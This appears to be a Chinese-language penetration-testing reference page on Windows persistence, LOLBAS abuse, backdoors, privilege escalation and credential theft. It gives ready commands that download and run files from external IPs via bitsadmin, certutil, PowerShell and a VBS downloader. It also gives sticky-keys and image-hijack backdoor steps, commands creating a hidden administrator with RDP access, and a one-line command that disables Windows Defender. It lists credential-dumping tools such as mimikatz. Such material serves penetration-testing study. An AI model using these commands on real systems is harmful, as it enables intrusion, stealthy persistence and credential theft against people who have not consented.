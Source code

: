 持久化 - Windows
========================================

隐藏文件
----------------------------------------
- 创建系统隐藏文件
    - ``attrib +s +a +r +h filename`` / ``attrib +s +h filename``
- 利用NTFS ADS (Alternate　Data　Streams) 创建隐藏文件
- 利用Windows保留字
    - ``aux|prn|con|nul|com1|com2|com3|com4|com5|com6|com7|com8|com9|lpt1|lpt2|lpt3|lpt4|lpt5|lpt6|lpt7|lpt8|lpt9``

LOLBAS
----------------------------------------

定义
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
LOLBAS，全称Living Off The Land Binaries and Scripts (and also Libraries)，是一种白利用方式，是在2013年DerbyCon由Christopher Campbell和Matt Graeber发现，最终Philip Goh提出的概念。

这些程序一般有有Microsoft或第三方认证机构的签名，但是除了可以完成正常的功能，也能够被用于内网渗透中。这些程序可能会被用于：下载安全恶意程序、执行恶意代码、绕过UAC、绕过程序控制等。

常见程序
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- bitsadmin.exe
	+ 下载文件:``bitsadmin /transfer myDownLoadJob /download /priority normal "http://192.168.203.140/b.ps1" "E:\\phpstudy_pro\\WWW\\b.ps1"``
- cdb.exe
- certutil.exe
    + 下载文件:``certutil -urlcache -split -f http://192.168.203.140/b.exe``
- cmd.exe
- cmstp.exe
- csc.exe
- cscript.exe
	+ 第一种
	
	::
	
		echo Set Post = CreateObject("Msxml2.XMLHTTP") >>download.vbs
		echo Set Shell = CreateObject("Wscript.Shell") >>download.vbs
		echo Post.Open "GET","http://192.168.203.140/a.ps1",0 >>download.vbs
		echo Post.Send() >>download.vbs
		echo Set aGet = CreateObject("ADODB.Stream") >>download.vbs
		echo aGet.Mode = 3 >>download.vbs
		echo aGet.Type = 1 >>download.vbs
		echo aGet.Open() >>download.vbs
		echo aGet.Write(Post.responseBody) >>download.vbs
		echo aGet.SaveToFile "D:/a.ps1",2 >>download.vbs
	
	+ 第二种：``echo set a=createobject(^"adod^"+^"b.stream^"):set w=createobject(^"micro^"+^"soft.xmlhttp^"):w.open^"get^",wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile wsh.arguments(1),2  >> downfile.vbs``
	+ 下载文件：``cscript downfile.vbs http://192.168.203.140/a.ps1 D:\\tomcat8.5\\webapps\\x.ps1``
	
- expand.exe
    + 展开一个或多个压缩文件
- mofcomp.exe
- msbuild.exe
    + 构建应用程序
- mshta.exe
- netsh.exe
- installutil.exe
    + 安装/卸载程序组件
- powershell.exe
	+ 下载文件:``powershell $client = new-object System.Net.WebClient;$client.DownloadFile('http://45.32.1.7:80/download/file.exe','d:\yayou\Web\RYFront\system.exe')``
	+ 下载文件:``powershell (new-object Net.WebClient).DownloadFile('http://192.168.203.140/a.ps1','E:\phpstudy_pro\WWW\a.ps1')``
	+ 执行程序:``powershell Start-Process d:\yayou\Web\RYFront\system.exe``
- psexec.exe
- reg.exe
- regedit.exe
- regsvr32.exe
- rundll32.exe
- sc.exe
- schtasks.exe
- wmic.exe
- windbg.exe
- wscript.exe

后门
----------------------------------------

sethc
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
``sethc.exe`` 是 Windows系统在用户按下五次shift后调用的粘滞键处理程序，当有写文件但是没有执行权限时，可以通过替换 ``sethc.exe`` 的方式留下后门，在密码输入页面输入五次shift即可获得权限。

映像劫持
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在高版本的Windows中，替换程序是受到系统保护的，需要使用其他的技巧来实现替换。

具体操作为在注册表的 ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Option`` 下添加项 ``sethc.exe`` ，然后在 ``sethc.exe`` 这个项中添加 ``debugger`` 键，键值为恶意程序的路径。

定时任务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows下有 ``schtasks`` 和 ``at`` 两种计划任务机制。 其中 ``at`` 在较高版本的Windows中已经弃用。

登录脚本
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows可以在用户登录前执行脚本，使用 ``HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`` 设置。

屏幕保护程序
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows可以自定义屏幕保护程序，使用 ``HKEY_CURRENT_USER\Control Panel\Desktop`` 设置。

隐藏用户
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows可以使用在用户名后加入 ``$`` 来创建匿名用户，这种方式创建的用户只能通过注册表查看。
::
	
	添加用户：
	net user admin123 123456 /add
	加入管理员组：
	net localgroup administrators admin123 /add
	加入远程登录组：
	net localgroup "Remote Desktop Users" admin123 /add

CLR
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
CLR (Common Language Runtime Compilation) 公共语言运行时，是微软为.NET产品构建的运行环境，可以粗略地理解为.NET虚拟机。

.NET程序的运行离不开CLR，因此可以通过劫持CLR的方式实现后门。

UAC
----------------------------------------

简介
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
UAC (User Account Control) 是Windows的一个安全机制，当一些敏感操作发生时，会跳出提示显式要求系统权限。

当用户登陆Windows时，每个用户都会被授予一个access token，这个token中有security identifier (SID) 的信息，决定了用户的权限。

会触发UAC的操作
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 以管理员权限启动应用
- 修改系统、UAC设置
- 修改没有权限的文件或者目录（ %SystemRoot% / %ProgramFiles% 等 ） 
- 修改ACL (access control list)
- 安装驱动
- 增删账户，修改账户类型，激活来宾账户

自启动
----------------------------------------
通过在注册表中写入相应的键值可以实现程序的开机自启动，主要是 ``Run`` 和 ``RunOnce`` ，其中RunOnce和Run区别在于RunOnce的键值只作用一次，执行完毕后会自动删除。

权限提升
----------------------------------------
权限提升有多重方式，有利用二进制漏洞、逻辑漏洞等技巧。利用二进制漏洞获取权限的方式是利用运行在内核态中的漏洞来执行代码。比如内核、驱动中的UAF或者其他类似的漏洞，以获得较高的权限。

逻辑漏洞主要是利用系统的一些逻辑存在问题的机制，比如有些文件夹用户可以写入，但是会以管理员权限启动。

提权辅助工具
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
https://i.hacking8.com/tiquan/

任意写文件利用
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在Windows中用户可以写的敏感位置主要有以下这些

+ 用户自身的文件和目录，包括 ``AppData`` ``Temp``
+ ``C:\`` ，默认情况下用户可以写入
+ ``C:\ProgramData`` 的子目录，默认情况下用户可以创建文件夹、写入文件
+ ``C:\Windows\Temp`` 的子目录，默认情况下用户可以创建文件夹、写入文件

具体的ACL信息可用AccessChk, 或者PowerShell的 ``Get-Acl`` 命令查看。

可以利用对这些文件夹及其子目录的写权限，写入一些可能会被加载的dll，利用dll的加载执行来获取权限。

MOF
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
MOF是Windows系统的一个文件（ ``c:/windows/system32/wbem/mof/nullevt.mof`` ）叫做"托管对象格式"，其作用是每隔五秒就会去监控进程创建和死亡。

当拥有文件上传的权限但是没有Shell时，可以上传定制的mof文件至相应的位置，一定时间后这个mof就会被执行。

一般会采用在mof中加入一段添加管理员用户的命令的vbs脚本，当执行后就拥有了新的管理员账户。

凭证窃取
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Windows本地密码散列导出工具
    - mimikatz
    - lsass
    - wce
    - gsecdump
    - copypwd
    - Pwdump
    - ProcDump
        - https://docs.microsoft.com/en-us/sysinternals/downloads/procdump
- Windows本地密码破解工具
    - L0phtCrack
    - SAMInside
    - Ophcrack
- 彩虹表破解
- 本机hash+明文抓取
- win8+win2012明文抓取
- ntds.dit的导出+QuarkPwDump读取分析
- vssown.vbs + libesedb + NtdsXtract
- ntdsdump
- 利用powershell(DSInternals)分析hash
- 使用 ``net use \\%computername% /u:%username%`` 重置密码尝试次数
- 限制读取时，可crash操作系统后，在蓝屏的dump文件中读取

其他
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 组策略首选项漏洞
- DLL劫持
- 替换系统工具，实现后门
- 关闭defender
    - ``Set-MpPreference -disablerealtimeMonitoring $true``
